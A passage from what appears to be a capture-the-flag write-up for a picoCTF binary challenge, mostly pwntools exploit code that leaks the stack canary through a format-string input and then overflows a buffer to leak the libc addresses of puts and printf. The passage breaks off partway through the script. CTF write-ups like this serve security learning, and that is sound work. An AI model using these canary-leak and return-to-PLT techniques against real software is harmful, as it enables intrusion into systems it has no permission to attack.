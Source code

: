 - After do that, we leaked the address of puts and printf in libc, and we have to do something to handle the received data. Which I choose for loop and move byte by byte to leak variable

```
puts_libc = 0
count = 0
for i in s:
    puts_libc += ord(i) << count
    count += 8
log.info(hex(puts_libc))
```

- And we use the same script with printf address leaking.

```python
payload_2 = "a"*512
payload_2 += p32(canary)
payload_2 += "a"*12
payload_2 += p32(puts_plt)
payload_2 += p32(win_addr)
payload_2 += p32(printf_got_plt)
p.recvuntil("Name? ")
p.sendline(payload_2)
s = p.recvline()
s = p.recvline()
s = p.recv(4)
printf_libc = 0
count = 0
for i in s:
    printf_libc += ord(i) << count
    count += 8
log.info(hex(printf_libc))
```

- you can refer the complete script that I use for finding libc in below

```python

# filename: libc_leak.py
from pwn import *

host = "jupiter.challenges.picoctf.org"
port = 13610
p = remote(host, port)

bypass_rand = -3727
win_addr = 0x0804876e
puts_plt = 0x80484c0
puts_got_plt = 0x8049fdc
printf_got_plt = 0x8049fc8

p.recvuntil("What number would you like to guess?\n")
p.sendline(str(bypass_rand).encode("ascii"))
p.recvuntil("Name? ")
p.sendline("%119$p")
p.recvuntil("Congrats: ")
canary = int(p.recv(10), 16)
log.info(hex(canary))

payload_1 = "a"*512
payload_1 += p32(canary)
payload_1 += "a"*12
payload_1 += p32(puts_plt)
payload_1 += p32(win_addr)
payload_1 += p32(puts_got_plt)
p.recvuntil("What number would you like to guess?\n")
p.sendline(str(bypass_rand).encode("ascii"))
```